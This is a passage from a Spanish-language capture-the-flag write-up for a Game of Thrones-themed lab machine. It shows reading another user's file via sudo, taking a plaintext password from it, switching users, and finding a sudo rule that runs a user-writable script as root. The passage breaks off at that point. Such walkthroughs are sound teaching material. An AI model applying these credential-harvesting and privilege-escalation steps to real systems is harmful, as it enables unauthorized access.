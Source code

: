 ```shell
sudo -u daenerys ls /home/daenerys/
```

Info:

```
mensajeParaJon
```

Vemos que hay un archivo, que si lo leemos veremos lo siguiente:

```shell
sudo -u daenerys cat /home/daenerys/mensajeParaJon
```

Info:

```
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!
```

Vemos que puede ser la contraseña del usuario `daenerys`, por lo que haremos lo siguiente:

```shell
su daenerys
```

Metemos como contraseña `drakaris`, y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for daenerys on 83214cba54c7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daenerys may run the following commands on 83214cba54c7:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

Vemos que podemos ejecutar el binario `bash` junto con `/home/daenerys/.secret/.shell.sh` como el usuario `root`, por lo que haremos lo siguiente:

Si hacemos lo siguiente:

```shell
ls -la /home/daenerys/.secret/
```

Info:

```
total 12
drwxr-xr-x 1 root     root     4096 Jul 16  2024 .
drwx------ 1 daenerys daenerys 4096 Jul 16  2024 ..
-rwxr-xr-x 1 daenerys daenerys   57 Jul 16  2024 .shell.sh
```
